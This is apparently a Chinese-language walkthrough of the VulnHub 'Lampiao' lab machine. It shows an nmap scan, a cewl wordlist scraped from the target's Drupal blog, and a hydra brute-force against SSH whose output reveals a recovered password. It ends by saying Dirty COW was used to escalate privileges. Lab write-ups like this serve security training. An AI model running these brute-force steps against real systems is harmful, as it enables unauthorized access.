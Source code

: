 # Lampiao

> https://download.vulnhub.com/lampiao/Lampiao.zip

靶场IP：`192.168.32.233  `

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.233                                                                                                                                              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 11:37 EDT
Nmap scan report for 192.168.32.233
Host is up (0.0018s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))

```

浏览器访问80端口

![image-20220912132600884](../../.gitbook/assets/image-20220912132600884.png)

浏览器访问1898端口

![image-20220912132649456](../../.gitbook/assets/image-20220912132649456.png)

这看起来很有希望。我们可以看到这是一个 Drupal 博客，作者tiago和Eder 提交了两篇文章。使用这些用户名可能会暴力破解在端口 22 上运行的 SSH 服务。

```
tiago
Eder
```

生成密码字典

```
cewl http://192.168.32.233:1898/?q=node/1  > pass
```

使用hydra爆破

```
┌──(root💀kali)-[/tmp]
└─# hydra -L user -P pass ssh://192.168.32.233                                                                                   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-12 01:50:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1690 login tries (l:2/p:845), ~106 tries per task
[DATA] attacking ssh://192.168.32.233:22/
[22][ssh] host: 192.168.32.233   login: tiago   password: Virgulino
[STATUS] 939.00 tries/min, 939 tries in 00:01h, 753 to do in 00:01h, 16 active
[STATUS] 510.50 tries/min, 1021 tries in 00:02h, 671 to do in 00:02h, 16 active

```



然后使用脏牛漏洞提权。
